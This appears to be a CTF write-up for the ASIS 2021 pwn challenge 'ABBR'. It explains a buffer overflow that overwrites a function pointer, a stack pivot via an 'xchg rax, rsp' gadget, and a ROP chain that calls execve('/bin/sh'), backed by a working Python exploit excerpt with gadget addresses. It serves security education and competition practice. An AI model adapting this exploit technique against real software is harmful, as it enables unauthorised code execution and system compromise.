 # ABBR

## TLDR
### Vulnerability
* out of range refference
* buffer overflow
### How to attack
* overwrite function pointer
* execute rop chain

## Challenge
### Description
result of file command
* Arch    : x86-64
* Library : Statically linked
* Symbol  : Not stripped

result of checksec
* RELRO  : Partial RELRO
* Canary : Enable
* NX     : Enable
* PIE    : Disable

### Exploit 
In english\_expand(), we can overwrite out of text area.  
The structure of Translator is just below the text. so we can control RIP value with overwriting "translate" member of structure.  


Next, What value we should overwrite with?  
There is great gadget, "xchg rax, rsp".  
When the translate member is execute as function, RAX is the address of text where we can freely write on.  
So we should prepare rop chain gadget there.  

A part of exploit
```python
xchg_eax_esp = 0x405121
rdi_ret = 0x4018da
rsi_ret = 0x404cfe
rax_ret = 0x45a8f7
rdx_ret = 0x4017df
mov_ptr_rdi_rsi_ret = 0x45684f
syscall = 0x4012e3

def exploit():
	
	payload = b"aaw"
	payload += b"A"*(0xfff-3-3)
	payload += b"\x21\x51\x40"
	conn.sendafter("text: ", payload) 
	
	payload = p64(rdi_ret)
	payload += p64(addr_bss)
	payload += p64(rsi_ret)
	payload += b"/bin/sh\x00"
	payload += p64(mov_ptr_rdi_rsi_ret)
	payload += p64(rsi_ret)
	payload += p64(0)
	payload += p64(rdx_ret)
	payload += p64(0)
	payload += p64(rax_ret)
	payload += p64(59)
	payload += p64(syscall)

	conn.sendlineafter("text: ", payload) 
	conn.interactive()	

if __name__ == "__main__":
	exploit()	
```

My exploit code is [solve.py](https://github.com/kam1tsur3/2021_CTF/blob/master/asis/pwn/abbr.d/solve.py).

## Reference

twitter: @kam1tsur3
